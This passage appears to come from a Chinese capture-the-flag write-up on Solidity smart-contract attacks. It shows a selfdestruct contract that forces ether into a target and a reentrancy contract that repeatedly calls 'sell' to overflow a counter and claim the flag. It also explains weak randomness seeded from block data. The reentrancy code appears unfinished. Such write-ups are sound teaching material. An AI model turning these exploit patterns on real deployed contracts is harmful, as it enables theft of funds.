 对于合约余额大于100，只需要使用自毁函数强制向合约转钱即可:  
```
contract transferForce{
    
    address owner;
    
    function () payable {
    }
    
    constructor()public{
        owner = msg.sender;
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    // 向合约强制转账
    function transfer(address to) public onlyOwner {
        selfdestruct(to);
    }
}

```  
  
最后使用重入使得sellTimes溢出，达到获取flag条件：  
```
contract re {
    address h4ck = 0x2;
    uint ret;

    function flag () {
        h4ck.call(bytes4(keccak256("winnerSubmit")));
    }

    function attack() {
        h4ck.call(bytes4(keccak256("sell(uint256)")), 0);
    }

    function () payable {
        if (ret ==0 ) {
            h4ck.call(bytes4(keccak256("sell(uint256)")), 0);
        }
    }
```  
  
  
  
  
****  
**随机数**  
  
在solidity智能合约中，可以使用timestamp, block.number等变量作为随机数的种子：  
```
bet_count[tx.origin] = bet_count[tx.origin].add(1);
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 seed_hash = uint256(keccak256(abi.encodePacked(seed)));
        uint256 shark = seed_hash % MOD_NUM; // 20 
        uint256 lucky_hash = uint256(keccak256(abi.encodePacked(bet_count[tx.origin])));
        uint256 lucky = lucky_hash % MOD_NUM;

```  
  